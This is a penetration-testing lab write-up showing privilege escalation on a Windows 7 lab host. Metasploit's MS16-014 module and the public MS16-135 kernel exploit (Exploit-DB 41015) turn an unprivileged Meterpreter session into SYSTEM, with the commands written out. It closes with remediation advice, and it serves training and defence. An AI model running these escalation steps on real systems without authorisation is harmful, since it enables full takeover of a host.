# Windows Kernel Exploitation

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** WIN7-PC (10.10.10.7) — Windows 7 (6.1.7601)<br>
**Attacker:** 10.10.10.10 (Kali)<br>
**Starting access:** PowerShell + Meterpreter sessions as `Win7-PC\Accountant`

## 1. Executive Summary

Starting from an unprivileged `Accountant` session, `getsystem` fails. We escalate to
`NT AUTHORITY\SYSTEM` two ways: (1) with Metasploit's `local_exploit_suggester`, which
recommends **MS16-014** (`ms16_014_wmi_recv_notif`); and (2) manually with
**Windows-Exploit-Suggester**, which — from the target's `systeminfo` — flags **MS16-135
(CVE-2016-7255)**; we compile/run the public exploit to get SYSTEM.

## 2. Starting Sessions

```bash
sessions        # powershell + meterpreter as Accountant @ WIN7-PC
```



Confirming we are not privileged.



`getsystem` fails.

```bash
getsystem       # fails
```



## 3. Method 1 — Local Exploit Suggester (MS16-014)

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 3
run
```





Using the suggested `ms16_014_wmi_recv_notif`.

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION 3
set LPORT 4422
exploit
getuid          # NT AUTHORITY\SYSTEM
```



Now we have a privileged session alongside the unprivileged one.



## 4. Method 2 — Windows-Exploit-Suggester (MS16-135)

The tool needs the target's `systeminfo` as a text file.



```bash
systeminfo      # (in meterpreter) -> save output to sysinfo.txt
```


Updating the database, then running against the `systeminfo` file.

```bash
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2021-xx-xx-mssb.xls --systeminfo sysinfo.txt
```







Among the results, **MS16-135 (CVE-2016-7255)** — a win32k kernel-mode driver flaw — with a
privilege-escalation PoC on Exploit-DB (41015).



## 5. Running the MS16-135 Exploit

Downloading the exploit binary.



Dropping to a shell and running it with the OS version argument.

```cmd
shell
cd C:\Temp
.\41015.exe 7       # 7 = Windows 7
```





The shell is now SYSTEM.

```cmd
whoami              # nt authority\system
```



## 6. Remediation Recommendations

1. **Apply security updates** — MS16-014 and MS16-135 are patched; keep Windows current and
   retire end-of-life Windows 7.
2. **Least privilege** so a foothold account can't stage/run local exploits.
3. **Restrict write/execute in temp paths** (WDAC/AppLocker) to block dropped exploit
   binaries.
4. **Enable EDR/exploit protection** to detect kernel privilege-escalation attempts.
